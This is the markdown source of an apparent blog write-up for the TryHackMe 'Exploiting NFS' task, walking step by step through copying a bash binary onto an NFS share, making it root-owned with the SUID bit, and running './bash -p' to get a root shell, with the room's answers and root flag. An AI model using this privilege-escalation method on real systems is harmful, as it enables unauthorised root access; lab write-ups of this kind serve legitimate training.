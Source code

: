 ```yaml
---
title:  "TryHackMe: Exploiting NFS"
date:   2021-03-15 19:30:00 +1100
excerpt: Exploiting NFS to gain root access.
---
```


This is a write up for the **Exploiting NFS** task of the [**Network Services 2**](https://tryhackme.com/room/networkservices2) room on [TryHackMe](https://tryhackme.com). Some tasks have been omitted as they do not require an answer.

***

### First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.

```
cd /tmp/mount/cappucino
```

### Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"

```
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash -P ~/Downloads
cd /tmp/mount/cappucino
cp ~/Downloads/bash .
sudo chown root bash
```

### Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod?

Set the setuid flag with **+s**

```
sudo chmod +s bash
sudo chmod +x bash
```

> Answer: **s**

### Let's do a sanity check, let's check the permissions of the "bash" executable using "ls -la bash". What does the permission set look like? Make sure that it ends with -sr-x.

```
ls -la bash
```

<img src="{{ site.baseurl }}/assets/images/2021-03-15-exploiting-nfs/01-chmod.jpg">

> Answer: **-rwsr-sr-x**

### Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with "./bash -p". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.

```
ssh -i id_rsa cappucino@<ip>
ls -la
```

<img src="{{ site.baseurl }}/assets/images/2021-03-15-exploiting-nfs/02-bash.jpg">

```
./bash -p
```

<img src="{{ site.baseurl }}/assets/images/2021-03-15-exploiting-nfs/03-bash-connect.jpg">

### Great! If all's gone well you should have a shell as root! What's the root flag?

```
cat /root/root.txt
```

<img src="{{ site.baseurl }}/assets/images/2021-03-15-exploiting-nfs/04-flag.jpg">

> Answer: **THM{nfs_got_pwned}**

### Recap

In this task we learnt how to:
 * Download and copy a file onto an NFS share
 * Reassign permissions via **chmod**
 * Execute **SUID Bit Bash Executable** in order to gain root access to the machine